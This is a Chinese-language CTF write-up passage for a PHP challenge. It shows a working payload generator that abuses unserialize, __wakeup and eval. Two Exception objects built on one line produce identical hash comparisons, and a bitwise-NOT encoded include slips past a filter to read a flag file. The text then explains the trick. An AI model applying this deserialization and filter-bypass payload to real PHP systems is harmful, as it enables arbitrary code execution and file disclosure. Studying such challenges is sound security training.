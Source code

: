 payload：

```PHP
<?php

class SYCLOVER {
	public $syc;
	public $lover;
	public function __wakeup(){
		if( ($this->syc != $this->lover) && (md5($this->syc) === md5($this->lover)) && (sha1($this->syc)=== sha1($this->lover)) ){
		   if(!preg_match("/\<\?php|\(|\)|\"|\'/", $this->syc, $match)){
			   eval($this->syc);
		   } else {
			   die("Try Hard !!");
		   }
		   
		}
	}
}
$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";
/* 
或使用[~(取反)][!%FF]的形式，
即: $str = "?><?=include[~".urldecode("%D0%99%93%9E%98")."][!.urldecode("%FF")."]?>";    

$str = "?><?=include $_GET[_]?>"; 
*/
$a= new SYCLOVER();
$b=	new Exception($str,1);$c= new Exception($str,2);
echo $b;
echo "</br>";
echo $c;
$a->syc=$b;
$a->lover=$c;
echo urlencode(serialize($a));

```

这里 `$str = "?><?=include~".urldecode("%D0%99%93%9E%98")."?>";` 中为什么要在前面加上一个 `?>` 呢？因为`Exception` 类与 `Error` 的 `__toString` 方法在eval()函数中输出的结果是不可能控的，即输出的报错信息中，payload前面还有一段杂乱信息“Error: ”

因为我们需要报错信息相同,而报错时会所以还得让

$b=new Exception($str,1);$c= new Exception($str,2);位于同一排

若我们不位于同一排,报错的字符串是不同的

![image-20210226161835498](极客大挑战/image-20210226161835498.png)

